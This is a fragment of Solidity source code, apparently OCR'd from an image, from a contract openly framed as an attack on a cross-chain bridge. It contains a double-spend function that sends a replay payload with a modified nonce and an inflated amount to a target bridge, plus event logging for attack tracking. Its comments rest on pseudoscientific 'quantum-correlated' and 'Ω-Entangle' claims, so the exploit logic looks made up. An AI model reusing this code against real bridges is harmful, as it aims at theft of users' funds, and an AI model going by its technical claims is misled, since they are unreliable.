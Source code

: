 ```solidity
        emit StateCorrelationExploited(attackId, attack.amount);
    }

    // ATTACK PHASE 3: Cross-Chain Double Spend
    function executeDoubleSpend(
        bytes32 originalMessageHash,
        uint256 nonce
    ) external {

        // Reconstruct original message with modified nonce
        bytes memory replayPayload = abi.encode(
            msg.sender,
            1000 ether,  // Double spend amount
            nonce + 1,   // Modified nonce
            "REPLAY_ATTACK"
        );

        // Execute replay on destination chain
        lzEndpoint.send{value: msg.value}(
            BSC_CHAIN_ID,
            abi.encodePacked(targetBridge),
            replayPayload,
            payable(msg.sender),
            address(0),
            bytes("")
        );

        emit DoubleSpendExecuted(originalMessageHash, 1000 ether);
    }

    function createCorrelatedState(
        AttackState memory attack
    ) internal pure returns (bytes memory) {

        // Create quantum-correlated payload
        // This exploits the non-separable state detected by Ω-Entangle
        return abi.encode(
            attack.target,
            attack.amount * 2,  // Amplified correlation
            "CORRELATED_EXPLOITATION"
        );
    }

    // Events for attack tracking
    event EntanglementInitiated(bytes32 indexed attackId, address target, uint256 amount);
    event StateCorrelationExploited(bytes32 indexed attackId, uint256 amount);
    event DoubleSpendExecuted(bytes32 indexed originalHash, uint256 amount);
}
```

---
